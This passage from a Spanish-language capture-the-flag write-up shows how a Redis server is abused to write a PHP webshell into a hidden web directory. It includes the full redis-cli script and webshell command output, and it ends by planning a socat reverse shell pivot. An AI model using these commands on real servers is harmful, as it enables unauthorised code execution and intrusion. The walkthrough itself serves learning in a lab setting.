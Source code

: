 ```bash
						        cache: false,
						        dataType: "text",
						        success: function (data) {
				              console.log("HITS incremented:", data);
						        },
						        error: function () {
						        }
						    });
						}
```
Procedemos a buscar la ruta quitando lo de `ajax.php...`

Vamos a usar la `ruta 2` suponiendo que se encuentra a nivel del servidor en la ruta `/var/www/html/8924d0549008565c554f8128cd11fda4`

Nos creamos un Scrip para `pwn_redis-cli.sh` y subir una webshell en php a la ruta encontrada `siguiendo los pasos de la web` para la Vuln de `RCE de Redis`
```bash
#!/bin/bash

 redis-cli -h 127.0.0.1 flushall
 cat pro4shell.php | redis-cli -h 127.0.0.1 -x set crackit
 redis-cli -h 127.0.0.1 config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
 redis-cli -h 127.0.0.1 config set dbfilename "pro4shell.php"
 redis-cli -h 127.0.0.1 save
```` 
Ahora vermos que accediendo a la ruta `http://localhost/8924d0549008565c554f8128cd11fda4/pro4shell.php` obtenemos nuestra webshell maliciosa subida correctamente,
y ejecutando comando como `www-data`.

```bash

http://127.0.0.1/8924d0549008565c554f8128cd11fda4/pro4shell.php?cmd=ip%20a  

1: lo:  mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
7: eth0@if8:  mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.2/16 brd 172.20.255.255 scope global eth0
       valid_lft forever preferred_lft forever
9: eth1@if10:  mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever,multicast,up,lower_up>,multicast,up,lower_up>,up,lower_up>
       
   "   Funciona!!!
       Pero nos lo borran rapidamente asique toca montarse un script en bash que nos ejecute estos comandos para poder tener un rce constante conforme queramos       
       # ./pwn-redis-cli.sh 
OK
OK
OK
OK
OK"
```
# Mapeado de Red 3 + Uso de SOCAT
La maquina `www-data` tiene conectividad con la maquina `Node-RED` y nosotros con esta. Para poder hacernos llegar la `Reverse_shell` vamos a tener que subir el binario de `socat` que lo podemos descargar desde aqui [https://github.com/aledbf/socat-static-binary/releases/tag/v0.0.1](url)
